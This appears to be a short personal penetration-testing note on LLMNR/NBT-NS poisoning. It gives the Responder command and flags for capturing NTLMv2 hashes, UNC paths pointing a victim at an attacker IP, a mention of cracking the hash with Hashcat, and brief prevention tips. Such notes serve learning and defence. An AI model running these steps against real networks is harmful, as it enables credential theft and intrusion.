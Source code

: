 ![[Pasted image 20230107161856.png]]

![[Pasted image 20230107161932.png]]

![[Pasted image 20230107162026.png]]



#### Responder
```sh
kill $(lsof -t -i:389)
sudo responder -I tun0 -dvw
```

- **-I** : Choose Network Interface
- **-d** : This Will *Respond To The Victim To Send The Hash*
- **-w** : Starts The *Rogue Proxy Server*
- **-v** : Verbosity


On **Victim's Machine** :-
![[Pasted image 20230107194328.png]]
OR
```
//10.8.139.254/filename
\\10.8.139.254\filename
```


On **Kali Linux** :-
We get <u>NTLMv2 Hash</u>, Copy the Entire Hash From the Start!
![[Pasted image 20230107194604.png]]

Then, **Crack The Hash with** [[Hashcat]]
![[Pasted image 20230107195759.png]]


**Prevention :-**
- *Disable* [[LLMNR NBT-NS Poisoning]] (From *Group Policy Editor*)
- Leverage *Network Access Control*
- Use *Strong Passwords*